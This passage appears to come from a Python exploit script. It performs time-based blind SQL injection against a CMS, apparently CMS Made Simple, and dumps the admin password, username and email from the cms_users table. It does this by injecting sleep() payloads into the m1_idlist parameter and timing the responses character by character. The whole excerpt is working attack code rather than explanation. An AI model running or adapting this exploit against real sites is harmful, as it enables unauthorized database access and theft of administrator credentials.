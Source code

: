 ```python
            if elapsed_time >= TIME:
                flag = True
                break
        if flag:
            password = temp_password
            ord_password = ord_password_temp
    flag = True
    output += '\n[+] Password found: ' + password

def dump_username():
    global flag
    global db_name
    global output
    ord_db_name = ""
    ord_db_name_temp = ""
    while flag:
        flag = False
        for i in range(0, len(dictionary)):
            temp_db_name = db_name + dictionary[i]
            ord_db_name_temp = ord_db_name + hex(ord(dictionary[i]))[2:]
            beautify_print_try(temp_db_name)
            payload = "a,b,1,5))+and+(select+sleep(" + str(TIME) + ")+from+cms_users+where+username+like+0x" + ord_db_name_temp + "25+and+user_id+like+0x31)+--+"
            url = url_vuln + "&m1_idlist=" + payload
            start_time = time.time()
            r = session.get(url)
            elapsed_time = time.time() - start_time
            if elapsed_time >= TIME:
                flag = True
                break
        if flag:
            db_name = temp_db_name
            ord_db_name = ord_db_name_temp
    output += '\n[+] Username found: ' + db_name
    flag = True

def dump_email():
    global flag
    global email
    global output
    ord_email = ""
    ord_email_temp = ""
    while flag:
        flag = False
        for i in range(0, len(dictionary)):
            temp_email = email + dictionary[i]
            ord_email_temp = ord_email + hex(ord(dictionary[i]))[2:]
            beautify_print_try(temp_email)
            payload = "a,b,1,5))+and+(select+sleep(" + str(TIME) + ")+from+cms_users+where+email+like+0x" + ord_email_temp + "25+and+user_id+like+0x31)+--+"
            url = url_vuln + "&m1_idlist=" + payload
            start_time = time.time()
            r = session.get(url)
            elapsed_time = time.time() - start_time
            if elapsed_time >= TIME:
                flag = True
                break
        if flag:
            email = temp_email
            ord_email = ord_email_temp
    output += '\n[+] Email found: ' + email
    flag = True

```